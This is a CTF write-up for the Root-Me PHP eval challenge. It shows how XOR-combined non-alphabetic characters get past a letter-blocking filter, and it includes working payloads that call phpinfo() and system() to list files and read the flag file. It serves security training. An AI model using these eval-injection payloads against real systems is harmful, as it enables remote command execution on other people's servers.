 ```yaml
---
title: "PHP - EVAL - Advanced Filter Bypass | Rootme"
date: 2024-04-17
categories: [CHALLENGES, PHP - EVAL]
tags: [CHALLENGES, CTF] 
---
```



Hello, In this Writeup, I will explain methods for executing non-alphabetical PHP code to bypass PHP filters in [PHP - EVAL](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Eval) challenge.

## Challenge Source Code Analysis.
Firstly, I will analyze the source code of the challenge.
```php
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```

The PHP script first checks if a POST parameter named  `input`  is present. If the input lacks letters or backticks, it's evaluated as PHP code using eval(), with the result printed on the screen. However, if letters or backticks are detected, it warns of "Dangerous code."

## Spotting the bug.
After some Reasearch on google, I found a way to bypass this filter which is `Bypass using Non alphabetical char encoding.` Let's Discuss and we can use [onlinegdb](https://www.onlinegdb.com/) to test and run php code easily and faster. In php we can use XOR operator between characters not only numbers to produce another character. 

![img_screenshot](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/c1b4322b-f443-47b2-8b02-fab5c3e1f748)

So, here's the idea of our attack, what if we can reproduce an alphabetical char from  `xoring two non alphabetical chars.`  How can we do that ? 

The XOR operator works like this: When you XOR any two numbers, it produces a result. If you then XOR this result with one of the original numbers, you'll get the other original number. 

We can take a Demo form the following python test on python Interpreter. We can choose character like  `s`  that we want to produce it using XOR operator of two unkown character.

Steps of what we can do: 

- Getting ASCII decimal of the letter  `s`  which is 115 using ord() function in python.

- Selecting a random non-alphabetical-char like  `@`  and getting an ASCII decimal of this char which is 64.

- XORING this two decimal numbers and convert the result into char using chr() in python.

- Checking if the char is alphabetical char or not and the goal is to be non-alphabetical-char to bypass the filter.

- Finally, xoring the random non-alphabetical-char and the number resulted from xor operation will give us the letter we need to need.

![img_screenshot1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/734892cd-9efc-4dd0-b1c7-ea3e436aadb7)

we can now try this small payload in our challenge website:  `"@"^"3"`

![img_screenshot2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/66e4baa4-2430-46c6-a9e2-5ffd554a6857)

Nice, we can now automate this process using python, I write simple tool to automate this task which 
is [php-non-alphabetical-Encoder](https://github.com/0XMohomiester/PHP-Non-Alphabetical-Encoder.git)

we can now use it to generate `phpinfo` word to execute `phpinfo()` in the server.

```bash
python3 php-non-alpha-encoder.py phpinfo
("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@")
```
we can we make a php to call this as php function?
in php, If we declare `$__` as variable ad store the generted string from the tool in it and call it as `$__();` it will be executed as php function we can use it as: 
```php
$__ = ("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@");
$__();
```

![img_screenshot3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/36cbf8b5-d666-4f00-8797-3c03e61e01c5)

we can use payload like this:  `system("ls -la")` to run system commands

```php
$_1 = (","^"@").("("^"[");
$_2 = "-"; 
$_3 = (","^"@").("!"^"@"); 
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");  
$__($_1 . " " . $_2 . $_3);
```

Goood, Command executed and flag is inside `.passwd` file. 

![img_screenshot4](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/4555d2f6-6ab0-472d-9f54-552cfa6a62ff)


We can now generate payload like : `system("cat .passwd")` to get the flag.

```php
$_1 = ("#"^"@").("!"^"@").(")"^"]");
$_2 = ("+"^"[").("!"^"@").("("^"[").("("^"[").("("^"_").("$"^"@");
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");
$__($_1 . " " . "." . $_2);
```
and Finally here is our flag : `M!xIng_PHP_w1th_3v4l_L0L`

![img_screenshot5](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/6ad9a53d-60af-4421-836b-6a9dc2be8e77)
